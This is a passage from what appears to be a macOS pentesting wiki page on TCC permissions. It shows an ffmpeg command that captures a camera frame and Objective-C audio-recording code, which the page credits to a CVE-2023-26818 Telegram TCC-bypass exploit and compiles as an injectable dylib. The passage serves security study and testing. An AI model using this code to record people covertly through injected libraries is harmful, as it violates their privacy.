 ```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
{% endtab %}
{% endtabs %}

### Microphone

* **Entitlement**: **com.apple.security.device.audio-input**
* **TCC**: `kTCCServiceMicrophone`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record 5s of audio an store it in `/tmp/recording.m4a`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
    NSError *error;
    self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

    if (error) {
        NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.audioDeviceInput]) {
        [self.captureSession addInput:self.audioDeviceInput];
    }

    self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

    if ([self.captureSession canAddOutput:self.audioFileOutput]) {
        [self.captureSession addOutput:self.audioFileOutput];
```